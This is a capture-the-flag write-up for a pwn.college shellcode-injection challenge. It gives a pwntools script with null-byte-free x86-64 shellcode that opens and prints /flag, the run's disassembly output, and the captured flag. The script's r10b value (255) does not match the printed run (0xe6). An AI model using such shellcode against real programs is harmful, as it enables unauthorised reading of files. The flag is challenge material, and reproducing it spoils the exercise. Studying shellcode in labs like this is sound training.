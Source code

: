 # Level 3

## Approach

This time the challenge requires that the shellcode should have no NULL bytes!

I came across this useful article : https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-2-removing-null-bytes-0161591/

Here I found two interesting methods - 1- Shifting to Lose Nullbytes & 2- XOR to evade Nullbytes

Equipped with this info, this is the script I came up with to solve this challenge :-

```py 
from pwn import *

p = process("/challenge/babyshell-level-3")
context.arch = 'amd64'

script = asm(f'''

mov rbx, 0x67616c662f2f2f2f   # "////flag" in little endian
shr rbx, 0x18                 # Shift right(0x18 = 24) to get "/flag" by removing "///"
push rbx

xor rax, rax                  # XOR rax by rax gives 0 and removes any nullbytes
mov al, 2                     # Similar logic as previous levels from here
xor rsi, rsi
mov rdi, rsp
syscall

xor rdi, rdi
mov dil, 1
mov rsi, rax
xor rdx, rdx
mov al, 40
mov r10b, 255
syscall

xor rax, rax
mov al, 60
syscall
''')


p.sendline(script)
p.interactive()
```

From this I got the flag 

```
hacker@shellcode-injection~level3:~$ python3 script4.py
[+] Starting local process '/challenge/babyshell-level-3': pid 126
[*] Switching to interactive mode
###
### Welcome to /challenge/babyshell-level-3!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x22920000!
Reading 0x1000 bytes from stdin.

Executing filter...

This challenge requires that your shellcode have no NULL bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000022920000 | 48 bb 2f 2f 2f 2f 66 6c 61 67                 | movabs rbx, 0x67616c662f2f2f2f
0x000000002292000a | 48 c1 eb 18                                   | shr rbx, 0x18
0x000000002292000e | 53                                            | push rbx
0x000000002292000f | 48 31 c0                                      | xor rax, rax
0x0000000022920012 | b0 02                                         | mov al, 2
0x0000000022920014 | 48 31 f6                                      | xor rsi, rsi
0x0000000022920017 | 48 89 e7                                      | mov rdi, rsp
0x000000002292001a | 0f 05                                         | syscall
0x000000002292001c | 48 31 ff                                      | xor rdi, rdi
0x000000002292001f | 40 b7 01                                      | mov dil, 1
0x0000000022920022 | 48 89 c6                                      | mov rsi, rax
0x0000000022920025 | 48 31 d2                                      | xor rdx, rdx
0x0000000022920028 | b0 28                                         | mov al, 0x28
0x000000002292002a | 41 b2 e6                                      | mov r10b, 0xe6
0x000000002292002d | 0f 05                                         | syscall
0x000000002292002f | 48 31 c0                                      | xor rax, rax
0x0000000022920032 | b0 3c                                         | mov al, 0x3c
0x0000000022920034 | 0f 05                                         | syscall

Executing shellcode!

pwn.college{kGM9pzwyXepwzvgLKM26OTBjVay.0VOxIDLzITO0czW}
```

## Flag
`pwn.college{kGM9pzwyXepwzvgLKM26OTBjVay.0VOxIDLzITO0czW}`

## References
https://null-byte.wonderhowto.com/how-to/writing-64-bit-shellcode-part-2-removing-null-bytes-0161591/